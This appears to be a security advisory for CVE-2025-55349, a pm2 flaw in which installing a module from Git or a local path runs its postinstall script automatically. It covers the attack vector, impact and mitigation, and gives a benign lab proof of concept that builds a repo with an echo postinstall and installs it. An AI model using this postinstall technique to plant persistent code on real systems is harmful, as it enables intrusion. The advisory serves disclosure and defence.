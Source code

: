 # CVE-2025-55349 — pm2 Arbitrary Code Execution via `postinstall`

**Discoverer**: Golden Ticket Labs  
**Vendor**: Unitech (pm2)  
**Date Assigned**: August 20, 2025 (MITRE)  

---

## Description

An issue in the `lib/API/Modules/NPM.js` component of **Unitech PM2 v5.4.2** allows arbitrary code execution by installing packages with crafted `postinstall` scripts.  

PM2 automatically runs `postinstall` lifecycle scripts from Git-based or local file installations without sandboxing or user confirmation, including when invoked via:

This vulnerability persists even if the module is broken or non-functional, and attacker code can survive system reboots when registered as a PM2 boot module.
Affected Versions

    ≤ 5.4.2 — Vulnerable

    6.0.5 — Patched — Git parsing logic removed (PR #5909), but the fix was undocumented and absent from changelogs.

Attack Vector

An attacker can prepare a malicious Git repository with a package.json containing a crafted postinstall script.
When installed through PM2, the script executes automatically:

pm2 install https://github.com/attacker/malicious-module.git

Impact

    Execution of attacker-controlled code at install time

    Persistence through PM2-managed boot modules

    Potential lateral movement in environments using shared or scripted installs

Technical Details

PM2 treats Git repositories as implicitly trusted during module installation. Lifecycle scripts like postinstall execute without sandboxing, visibility, or confirmation.

This affects both remote Git URLs and local file:// paths, significantly broadening the attack surface. Because PM2 modules often start on system boot, the risk of persistence and embedded unauthorized behavior is high.
Mitigation

    Upgrade to PM2 v6.0.5 or newer, where Git parsing logic was removed.

    Avoid installing modules from untrusted Git sources.


Proof of Concept (Lab Only)

⚠️ No weaponized exploit code is provided. This is a safe demonstration.

```bash
# Create a malicious repo
git init pm2-evil
cd pm2-evil
cat > package.json <<EOF
{
  "name": "pm2-evil",
  "version": "1.0.0",
  "scripts": {
    "postinstall": "echo 'pwned by CVE-2025-55349'"
  }
}
EOF
git add package.json
git commit -m "Evil postinstall"
cd ..

# Trigger the install (on vulnerable pm2 v5.4.2)
pm2 install file://$PWD/pm2-evil
```
On vulnerable versions, the postinstall command executes immediately.
References

    Fix commit (removal of Git parsing logic)

PM2 v6.0.5 release
License & Disclaimer

All content in this repository is provided for educational and defensive purposes only.
No exploit payloads are included. Do not use these techniques against systems without explicit authorization.
Contact

Golden Ticket Labs
📧 goldenticketlabs@proton.me

🌐 goldenticketlabs.com
